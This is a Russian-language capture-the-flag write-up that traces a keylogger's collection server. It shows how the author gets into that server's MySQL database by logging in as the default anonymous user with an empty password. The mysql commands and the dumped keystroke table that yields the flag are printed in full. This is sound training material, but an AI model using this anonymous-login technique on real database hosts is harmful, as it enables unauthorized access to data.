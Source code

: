 # Странный вирус: Write-up

В последнем таске нас просят продолжить исследование JAR-файла. Что ж, сразу идем обратно в 
декомпилятор. Судя по условию, флаг где-то записан хакерами.

Начнем исследование с IP-адреса и порта — `45.77.142.82:31337`. На этом порту висит HTTP-сервер,
куда на `/log` приходят данные о нажатых клавишах.

Но давайте просто зайдем на главную страницу из браузера.

![Главная страница](images/main.png)

Отлично, мы вышли на АНБ. Значит, самое время натравить сканер типа `nmap` или внимательно
вчитаться в содержимое страницы: используется MySQL.

Остается два варианта:
* либо речь об SQL-инъекции
* либо речь о прямом доступе в БД

Узнаем, что MySQL обычно находится на порту 3306 (или запускаем `nmap`, который сам об этом
скажет). А раз порт открыт, то значит, мы на верном пути. Но мы не знаем логин и пароль.
Воспользуемся интересной особенностью MySQL: по умолчанию в базе есть «анонимный» пользователь — 
при входе с произвольным (несуществующим) логином и пустым паролем мы попадем в этот режим.

```
# mysql -h 45.77.142.82 -u user
Welcome to the MySQL monitor.
<...>

mysql>
```

Ура, работает. Удивительно, но у нас даже есть какие-то права в базе. Быстро находим интересную
таблицу:

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| keyes              |
+--------------------+
2 rows in set (0.00 sec)

mysql> use keyes;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables\_in\_keyes |
+-----------------+
| keyes           |
+-----------------+
1 row in set (0.00 sec)

mysql> select * from keyes;
+----+---------------------------------------------+
| id | strokes                                     |
+----+---------------------------------------------+
| <...>                                            |
| 33 | b'gu :\xd1\x8f'                             |
| 34 | b'ym\_ar'                                   |
| 35 | b'1\_1qs'                                   |
| 36 | b'uc35n'                                    |
| 37 | b',y71r'                                    |
| <...>                                            |
+----+---------------------------------------------+
```

Аккуратно достаем флаг, ориентируясь на код кейлоггера.

Флаг: **ugra_mysq1_1n53cur17y**
